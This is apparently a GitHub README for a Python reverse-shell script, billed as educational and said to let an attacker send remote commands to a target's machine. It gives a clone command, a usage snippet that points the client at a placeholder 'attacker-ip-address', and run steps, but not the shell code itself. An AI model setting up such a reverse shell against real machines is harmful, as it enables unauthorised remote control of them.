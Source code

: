# Reverse Shell

## Disclaimer

This script is for educational purposes only, I don't endorse or promote it's illegal usage

## Table of Contents

1. [Overview](#overview)
2. [Features](#features)
3. [Languages](#languages)
4. [Installations](#installations)
5. [Usage](#usage)
6. [Run](#run)

## Overview

This script demonstrates a simple reverse shell

## Features

- It allows an attacker to send remote commands to the target's machine

## Languages

- Python 3.9.7

## Installations

```shell
git clone https://github.com/favoursyre/priviledge-escalator.git && cd priviledge-escalator
```

## Usage

For client.py

```python
host = "attacker-ip-address"
clientSide(host)
```

## Run

You first have to run server.py and then client.py

```bash
python server.py
```

Then

```python
python client.py
```
